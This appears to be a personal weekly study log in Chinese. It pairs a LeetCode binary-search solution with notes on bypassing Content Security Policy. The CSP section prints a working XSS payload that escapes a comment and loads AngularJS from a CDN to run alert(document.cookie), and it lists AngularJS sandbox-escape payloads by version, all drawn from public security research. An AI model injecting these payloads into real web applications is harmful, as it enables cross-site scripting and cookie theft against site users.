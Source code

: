 # Week02
# 算法题(Algorithm)

[题目: Search Insert Position](https://leetcode-cn.com/problems/search-insert-position/)
\#二分查找
这周继续巩固一下二分法

## 题目
给定一个排序数组和一个目标值，在数组中找到目标值，并返回其索引。如果目标值不存在于数组中，返回它将会被按顺序插入的位置。
你可以假设数组中无重复元素。

## 已知
0<= result <=len(nums)

## 二分法
同用week01使用一样的[原则](bear://x-callback-url/open-note?id=C15E3247-3E37-42EC-86AD-F506B55EECFE-23919-00001EBE8912C89B&header=%E4%BA%8C%E5%88%86%E6%B3%95)，这道题中最终插入的位置应该向上取整，所以最终代码如下；
```python
class Solution:
    def searchInsert(self, nums: List[int], target: int) -> int:
        """
        :type nums: List[int]
        :type target: int
        :rtype: int
        """
        max = len(nums)
        min = 0
        while max != min:
            mid = (max+min)>>1
            if nums[mid] < target:
                min = mid+1
            else:
                max = mid
        return int(max)
```

## 投机取巧
```python
class Solution:
    def searchInsert(self, nums, target):
        """
        :type nums: List[int]
        :type target: int
        :rtype: int
        """
        if target in nums:
            return nums.index(target)
        else:
            nums.append(target)
            nums.sort()
            return nums.index(target)
```
<br>

# 阅读点评(Review)

[XSS without HTML: Client-Side Template Injection with AngularJS](https://portswigger.net/blog/xss-without-html-client-side-template-injection-with-angularjs)
应用这个技巧可以绕过CSP，详见下方Tip。
<br>

# 技术技巧(Tip)
顾名思义，这个规范与内容安全有关，主要是用来定义页面可以加载哪些资源，减少 XSS 的发生。
CSP协议文档：[Content Security Policy (CSP) - Google Chrome](https://developer.chrome.com/extensions/contentSecurityPolicy) [https://developer.mozilla.org/zh-CN/docs/Web/Security/CSP/CSP_policy_directives](https://developer.mozilla.org/zh-CN/docs/Web/Security/CSP/CSP_policy_directives) 
浏览器兼容性： [CanIUse](http://caniuse.com/#feat=contentsecuritypolicy) 
好文：[Content Security Policy 介绍 | JerryQu 的小站](https://imququ.com/post/content-security-policy-reference.html) [知乎阿里云安全的回答](https://www.zhihu.com/question/21979782/answer/122682029)

## 攻击点
### unsafe关键字
`'unsafe-eval'`：允许使用eval()等通过字符串创建代码的方法。两侧单引号是必须的。*注意:*使用 ‘unsafe-inline’ 和 ‘unsafe-eval’ 都是不安全的，它们会使您的网站有跨站脚本攻击风险。

若使用了`unsafe-eval`关键字 -> 第一個想到在 2017 年 Black Hat USA 由幾個 Google Security 成員所發表的 [Breaking XSS mitigations via Script Gadgets](https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf) 手法!
[file:18A50134-2F57-4A44-AF8D-D6C413329EB0-6533-000016A658FEBBDA/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf]

### 不安全的CDN
有些内容交付网络（CDN）JavaScript hosting 服務上提供了許多第三方函示庫以供引入，这时它就会让绕过CSP策略非常简单：可以直接使用 AngularJS 函示庫，配合 [Client-Side Template Injection](https://portswigger.net/blog/xss-without-html-client-side-template-injection-with-angularjs) 的方式輕鬆繞過!
如orange师傅在[blog](http://blog.orange.tw/2019/03/a-wormable-xss-on-hackmd.html)中利用逃逸注释标签加angularjs逃逸的payload：
```
<!-- foo="-->
<script src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.min.js>
</script>
<div ng-app>
    {{constructor.constructor('alert(document.cookie)')()}}
</div>
//sssss" -->
``` 

附录：全angularjs版本利用方法
```
List of Sandbox bypasses
1.0.1 - 1.1.5
 [Mario Heiderich](https://twitter.com/cure53berlin) (Cure53)
{{constructor.constructor('alert(1)')()}}
1.2.0 - 1.2.1
 [Jan Horn](https://twitter.com/tehjh) (Google)
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
1.2.2 - 1.2.5
 [Gareth Heyes](https://twitter.com/garethheyes) (PortSwigger)
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
1.2.6 - 1.2.18
 [Jan Horn](https://twitter.com/tehjh) (Google)
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
1.2.19 - 1.2.23
 [Mathias Karlsson](https://twitter.com/avlidienbrunn) 
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
1.2.24 - 1.2.29
 [Gareth Heyes](https://twitter.com/garethheyes) (PortSwigger)
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
1.3.0
 [Gábor Molnár](https://twitter.com/molnar_g) (Google)
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
1.3.1 - 1.3.2
 [Gareth Heyes](https://twitter.com/garethheyes) (PortSwigger)
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf; 
    $eval('x=alert(1)//'); 
}}
1.3.3 - 1.3.18
 [Gareth Heyes](https://twitter.com/garethheyes) (PortSwigger)
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join; 

  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
1.3.19
 [Gareth Heyes](https://twitter.com/garethheyes) (PortSwigger)
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join; 
    $eval('x=alert(1)//'); 
}}
1.3.20
 [Gareth Heyes](https://twitter.com/garethheyes) (PortSwigger)
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
1.4.0 - 1.4.9
 [Gareth Heyes](https://twitter.com/garethheyes) (PortSwigger)
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
1.5.0 - 1.5.8
 [Ian Hickey](https://twitter.com/ianhickey1024) 
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}} 
1.5.9 - 1.5.11
 [Jan Horn](https://twitter.com/tehjh) (Google)
{{
 c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
 c.$apply=$apply;c.$eval=b;op=$root.$$phase;
 $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
 C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
 B=C(b,c,b);$evalAsync("
 astNode=pop();astNode.type='UnaryExpression';
 astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
 astNode.argument={type:'Identifier',name:'foo'};
 ");
 m1=B($$asyncQueue.pop().expression,null,$root);
 m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
 $eval('a(b.c)');[].push.apply=a;
}}
>=1.6.0
 [Mario Heiderich](https://twitter.com/cure53berlin) (Cure53)
{{constructor.constructor('alert(1)')()}}
```
<br>

# 分享(Share)
我关于XSS的理论知识清单：https://hducaiji.github.io/2019/04/28/XSS/


